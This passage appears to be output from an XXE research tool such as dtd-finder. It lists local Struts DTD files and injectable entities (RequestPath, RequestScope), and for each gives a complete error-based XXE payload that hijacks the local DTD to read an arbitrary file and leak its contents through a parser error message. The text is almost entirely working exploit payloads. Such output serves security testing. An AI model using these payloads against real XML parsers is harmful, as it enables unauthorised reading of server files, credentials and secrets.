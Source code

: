 ```
    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_0.dtd`

**Injectable entity:** `RequestPath`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_0.dtd">

    <!ENTITY % RequestPath '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_0.dtd`

**Injectable entity:** `RequestScope`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_0.dtd">

    <!ENTITY % RequestScope '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```
